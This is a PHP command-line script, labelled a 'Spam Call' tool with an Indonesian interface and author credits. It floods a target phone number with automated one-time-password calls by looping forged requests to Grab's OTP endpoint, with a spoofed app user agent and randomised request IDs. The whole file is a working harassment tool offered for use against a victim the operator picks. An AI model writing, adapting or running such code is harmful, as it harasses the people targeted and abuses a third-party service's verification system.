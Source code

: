 
<?php
system('clear');
function get(){
	return trim(fgets(STDIN));
}
class prankcall{
	public function __construct($no){
		$this->number = $no;
	}
	private function get(){
		return trim(fgets(STDIN));
	}
	private function correct($no){
		$cek = substr($no,0,2);
		if($cek=="08"){
			$no = "62".substr($no,1);
		}
		return $no;
	}
	private function ekse(){
		$no = $this->correct($this->number);
		$rand = rand(0123456,9999999);
		$rands = $this->randStr(12);
		$post = "method=CALL&countryCode=id&phoneNumber=$no&templateID=pax_android_production";
		$h[] = "x-request-id: ebf61bc3-8092-4924-bf45-$rands";
		$h[] = "Accept-Language: in-ID;q=1.0, en-us;q=0.9, en;q=0.8";
		$h[] = "User-Agent: Grab/5.20.0 (Android 6.0.1; Build $rand)";
		$h[] = "Content-Type: application/x-www-form-urlencoded";
		$h[] = "Content-Length: ".strlen($post);
		$h[] = "Host: api.grab.com";
		$h[] = "Connection: close";
		$ch = curl_init();
		curl_setopt($ch, CURLOPT_URL, "https://api.grab.com/grabid/v1/phone/otp");
		curl_setopt($ch, CURLOPT_POST, 1);
		curl_setopt($ch, CURLOPT_POSTFIELDS, $post);
		curl_setopt($ch, CURLOPT_HTTPHEADER, $h);
		curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
		$x = curl_exec($ch); curl_close($ch);
		$ekse = json_decode($x,true);
		if(empty($ekse['challengeID'])){
			echo "Gagal\n";
		}else{
			echo "Sukses\n";
		}
	}
	private function loop($many,$sleep=null){
		$a=0;
		$no = $this->correct($this->number);
		while($a<$many){
			$rand = rand(0123456,9999999);
			$rands = $this->randStr(12);
			$post = "method=CALL&countryCode=id&phoneNumber=$no&templateID=pax_android_production";
			$h[] = "x-request-id: ebf61bc3-8092-4924-bf45-$rands";
			$h[] = "Accept-Language: in-ID;q=1.0, en-us;q=0.9, en;q=0.8";
			$h[] = "User-Agent: Grab/5.20.0 (Android 6.0.1; Build $rand)";
			$h[] = "Content-Type: application/x-www-form-urlencoded";
			$h[] = "Content-Length: ".strlen($post);
			$h[] = "Host: api.grab.com";
			$h[] = "Connection: close";
			$ch = curl_init();
			curl_setopt($ch, CURLOPT_URL, "https://api.grab.com/grabid/v1/phone/otp");
			curl_setopt($ch, CURLOPT_POST, 1);
			curl_setopt($ch, CURLOPT_POSTFIELDS, $post);
			curl_setopt($ch, CURLOPT_HTTPHEADER, $h);
			curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
			$x = curl_exec($ch); curl_close($ch);
			$ekse = json_decode($x,true);
			if(empty($ekse['challengeID'])){
				continue;
			}else{
				$nn = $a+1;
				echo "[$nn] Sukses\r";
				$a++;
			}
			if($sleep!=null) sleep($sleep);
			if($a>=$many) echo "\nDone lurr!\n";
		}
	}
	private function randStr($l){
		$data = "abcdefghijklmnopqrstuvwxyz1234567890";
		$word = "";
		for($a=0;$a<$l;$a++){
			$word .= $data{rand(0,strlen($data)-1)};
		}
		return $word;
	}
	public function run(){
		while(true){
			echo "root@.Mr.yM=# Kirim Mode Manual/Auto ?(y/t) : ";
			$loop = $this->get();
			if($loop=="y" OR $loop=="t"){
				break;
			}else{
				echo "Jika manual ketik (y) jika auto ketik (t)\n";
				continue;
			}
		}
		if($loop=="y"){
			echo "root@.Mr.yM=# Masukan Jumlah Spam : ";
			$many = $this->get();
			$this->loop($many);
		}else{
			$this->ekse();
		}
	}
}
menu:
system($bersih);
$green  = "\e[92m";
$red    = "\e[91m";
$yellow = "\e[93m";
$blue   = "\e[36m";
echo $green."

╔═╗┌─┐┌─┐┌┬┐  ╔═╗┌─┐┬  ┬  
╚═╗├─┘├─┤│││  ║  ├─┤│  │   X [POS]
╚═╝┴  ┴ ┴┴ ┴  ╚═╝┴ ┴┴─┘┴─┘\n".$blue.
"Barisan Orang Spam";
echo $red."
[!] Author   : Mr.gr007						[!]
[!] github   : github.com/aris9999        [!]\n";
echo $green."
======================================
|[!]  Thanks To Army Cyber Network [!]|
======================================\n";
echo "\n";
echo "\n";
echo "+-----------------------------------+\n";
echo "| [!] 0852***** or 62852******  [!] |\n";
echo "+-----------------------------------+\n";
echo " \n";
sleep ('0.4');
echo "root@.Mr.gr007=# Input No Target : ";
$no = get();
$n = new prankCall($no);
$n->run();
